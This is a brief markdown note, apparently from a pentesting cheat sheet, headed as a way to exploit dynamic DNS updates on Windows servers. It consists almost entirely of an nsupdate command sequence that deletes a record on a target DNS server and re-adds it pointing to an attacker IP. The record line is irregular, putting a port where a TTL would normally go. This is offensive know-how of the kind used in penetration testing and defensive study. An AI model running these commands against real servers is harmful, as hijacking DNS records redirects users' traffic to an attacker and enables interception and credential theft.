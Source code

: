 # DNS

### Exploit dynamic DNS updates on windows servers

```text
nsupdate
> server <target ip>
> update delete <replaced entry>
> send
> update add <replaced entry> <port> <attacker ip>
> send
> quit
```

